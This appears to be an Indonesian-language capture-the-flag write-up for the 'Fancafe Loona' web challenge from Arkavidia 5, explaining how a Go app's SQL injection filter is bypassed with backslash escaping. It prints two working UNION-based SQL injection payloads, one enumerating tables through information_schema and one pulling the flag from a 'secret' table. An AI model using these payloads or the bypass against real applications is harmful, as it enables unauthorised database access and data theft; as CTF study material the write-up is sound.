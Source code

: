 ```yaml
---
comments: true
title: 'Arkavidia 5: Fancafe Loona'
date: 2019-02-13 17:00:00 +0000
category:
- Ctf
tags:
- Arkavidia
private: false

---
```

### Fancafe Loona - Web

Diberikan website menggunakan `go` yang mempunyai fitur untuk mencari post dan melihat detail dari post, dengan route sebagai berikut.

![](/uploads/Capture.PNG)

Kita juga diberikan akses terhadap source codenya yang bisa digunakan untuk memudahkan kita menemukan entrypoint eksploitasi pada aplikasi tersebut, dan ditemukan aplikasi sudah mengimplementasikan proteksi terhadap serangan SQL Injection.

![](/uploads/Capture-1.PNG)

Namun sayang nya filter tersebut belum cukup untuk mengamankan dari serangan `SQL Injection` karena dapat di bypass dengan memanfaatkan backslash `\` .

> '  => \\'
>
> \\' => \\\\'

Dengan menggunakan `\'` kita dapat melakukan bypass terhadap filter tersebut, kemudian lakukan union dengan normal namun tanpa menggunakan spasi.

Menggunakan payload berikut kita dapat memunculkan list table yang ada melalui information_schema.

    TESTING\')and(1)=(0)union(select(1),1,1,1,table_name,1,(1)from(information_schema.tables)where(table_schema)!=(0x696e666f726d6174696f6e5f736368656d61))#

![](/uploads/Capture-2.PNG)

Kemudian fetch flag dari table secret dengan payload `TESTING\')and(1)=(0)union(select(1),1,1,1,flag,1,(1)from(secret))#`

![](/uploads/Capture-3.PNG)